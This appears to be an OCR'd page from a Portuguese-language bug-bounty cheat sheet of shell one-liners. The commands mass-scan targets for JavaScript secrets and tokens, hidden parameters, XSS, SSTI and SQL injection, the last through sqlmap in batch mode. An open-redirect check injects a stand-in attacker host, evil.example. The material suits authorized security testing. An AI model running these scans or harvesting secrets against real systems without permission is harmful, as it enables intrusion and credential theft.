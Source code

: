 ### Segredos & Endpoints em JS

```bash
# Extrair endpoints de JS
xargs -a js_json.txt -P8 -I@ bash -c 'echo -e "\n[JS]: @"; python3 LinkFinder/linkfinder.py -i @ -o cli' | anew js_endpoints.txt

# Segredos (keys/tokens) em JS
xargs -a js_json.txt -P8 -I@ python3 SecretFinder/SecretFinder.py -i @ -o cli | anew js_secrets.txt
```

### Descoberta de Parâmetros

```bash
# x8 — GET params ocultos
cat alive.txt | awk '{print $1}' | sed 's/$/\//' | xargs -I@ sh -c 'x8 -u @ -w params.txt -o enumerate'

# Arjun — GET/POST params
arjun -i <(awk '{print $1}' alive.txt) -t 50 -o arjun_results.json
```

### XSS (Reflected/DOM/Blind)

```bash
# Dalfox rápido
cat <(gau target.com) | dalfox pipe --multicast -o xss_report.txt

# KXSS (reflexões)
echo "https://testphp.vulnweb.com" | waybackurls | kxss

# Wingman (headless) + notify
cat subs.txt | xargs -I@ -P5 sh -c 'wingman -u @ --crawl | notify'
```

### SSTI

```bash
# Injetar {{7*7}} em URLs arquivadas e observar retornos
waybackurls https://target.com | qsreplace "{{7*7}}" | ffuf -u FUZZ -w - -ac -mc all -fs 0
```

### SQLi

```bash
# Padrões gf + sqlmap em massa
httpx -l resolved.txt -silent | waybackurls | gf sqli | anew sqli.txt
sqlmap -m sqli.txt --batch --random-agent --level 1
```

### Open Redirect

```bash
export LHOST="https://evil.example"
gau target.com | gf redirect | qsreplace "$LHOST" | \
xargs -I% -P25 sh -c 'curl -Is "%" | grep -q "Location: $LHOST" && echo "[OpenRedirect] %"'
```
